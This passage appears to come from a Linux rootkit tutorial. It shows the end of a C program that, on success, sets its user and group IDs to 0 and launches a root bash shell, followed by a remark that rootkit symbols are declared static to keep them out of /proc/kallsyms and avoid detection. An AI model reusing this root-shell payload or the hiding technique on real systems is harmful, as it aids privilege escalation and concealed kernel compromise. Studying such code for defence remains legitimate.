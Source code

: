 ```cpp
end:
	close(fd) ;
	printf("[+] I did it!\n") ;
	/* if we have to get root, we run shell */
	if(root) {
		uid_t uid = getuid() ;
		printf("[+] Success! uid=%i\n", uid) ;
		setuid(0) ;
		setgid(0) ;
		execl("/bin/bash", "bash", 0) ;
	}
	return 0;
}
```

# END
You can ask “why everything in rootkit is defined as “static””? Because things defined as static aren’t exported to /proc/kallsyms. It makes the rootkit harder to detect.
